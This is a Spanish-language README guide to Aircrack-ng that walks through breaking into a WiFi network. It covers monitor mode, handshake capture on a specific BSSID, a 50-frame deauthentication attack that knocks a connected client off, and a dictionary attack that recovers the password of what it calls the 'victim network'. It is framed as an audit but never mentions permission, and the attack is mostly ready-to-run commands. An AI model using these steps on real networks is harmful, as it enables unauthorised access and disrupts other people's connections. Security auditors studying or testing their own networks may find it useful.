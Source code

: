 # Guía de uso Aircrack-ng

<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Aircrack-ng es una suite de programas que nos permitirán realizar auditorías inalámbricas Wifi a routers y puntos de acceso Wifi. 

En esta Guía aprenderás a como realizar una auditoría a una red wifi con una lista de
contraseñas.

<br>

## Requisitos

* Kali Linux

* Tarjeta de Wifi con modo monitor

<br>

## USO
Lo primero será iniciar el modo monitor de nuestra tarjeta con airmon-ng. Se recomienda estar en usuario
root

```
iwconfig 
airmon-ng 
airmon-ng start wlan0 
airmon-ng check kill
```

<br>

![Informatica](Img/iwconfig.jpg)

<br>

Luego iniciamos el escaneo de redes wifi que hay a nuestro alrededor.

```
airodump-ng wlan0
```

<br>

![Informatica](Img/scan.jpg)

<br>

Ahora seleccionamos el canal de la red, luego agregamos un nombre para guardar el archivo de captura y por
último el BSSID de la red.

```
airodump-ng -c 6 -w auditoria-wifi --bssid 06:A1:51:9A:2F:2F wlan0
```

Como podemos observar solo 1 dispositivo está conectado y el unico que tiene EAPOL entonces seleccionaremos este dispositivo que será la clave para poder
entrar a la red, lo primero que haremos será desconectar el dispositivo de la red. Primero seleccionamos el
número de veces que va a desautenticar el dispositivo luego seleccionamos el BSSID de la red y por último el
BSSID del dispositivo.

```
aireplay-ng -0 50 -a 06:A1:51:9A:2F:2F -c 2E:C7:CB:0E:98:C4 wlan0
```
<br>

![Informatica](Img/desconectar.jpg)

<br>

Ahora la fase final será usar nuestro archivo de captura y nuestra lista de contraseñas para poder saber la
contraseña de la red. Ingresamos primero la ubicación de la lista de contraseñas luego el BSSID del al red y
por último el archivo de captura.

```
aircrack-ng -w /root/Hacking/Diccionarios/wifi.txt -b 06:A1:51:9A:2F:2F auditoriawifi-
01.cap
```
<br>

![Informatica](Img/contraseña.jpg)

<br>

Como podemos ver hemos conseguido la contraseña de la red víctima, dependiendo la contraseña aircrackng
tardara en descifrar la contraseña de la red.
